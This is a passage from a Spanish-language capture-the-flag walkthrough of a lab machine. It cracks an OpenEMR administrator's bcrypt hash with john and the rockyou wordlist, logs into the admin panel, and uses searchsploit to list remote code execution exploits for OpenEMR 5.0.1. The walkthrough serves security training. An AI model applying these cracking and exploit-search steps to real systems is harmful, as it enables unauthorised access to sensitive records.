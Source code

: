 Con esto, tenemos el usuairo **openemr_admin** y un hash, el cual vamos a tratar de romper con `john`:

```bash
❯ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 32 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
xxxxxx           (openemr_admin)
1g 0:00:00:00 DONE (2022-03-12 20:27) 6.250g/s 5400p/s 5400c/s 5400C/s caitlin..felipe
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Ya tenemos unas credenciales **openemr_admin : xxxxxx**, por lo que vamos a validarlas en el panel de login de **openEMR**.

![](/assets/images/htb-cache/cache-web8.png)

Ya ingresamos al panel de administración de **openEMR**. En el campo **About** vemos que nos enfrentamos a un **OpenEMR v5.0.1 (3)**, así que vamos a buscar posibles exploits que nos ayuden a ingresar al sistema.

```bash
❯ searchsploit openemr 5.0.1
----------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                 |  Path
----------------------------------------------------------------------------------------------- ---------------------------------
OpenEMR 5.0.1 - 'controller' Remote Code Execution                                             | php/webapps/48623.txt
OpenEMR 5.0.1 - Remote Code Execution (1)                                                      | php/webapps/48515.py
OpenEMR 5.0.1 - Remote Code Execution (Authenticated) (2)                                      | php/webapps/49486.rb
OpenEMR 5.0.1.3 - 'manage_site_files' Remote Code Execution (Authenticated)                    | php/webapps/49998.py
OpenEMR 5.0.1.3 - 'manage_site_files' Remote Code Execution (Authenticated) (2)                | php/webapps/50122.rb
```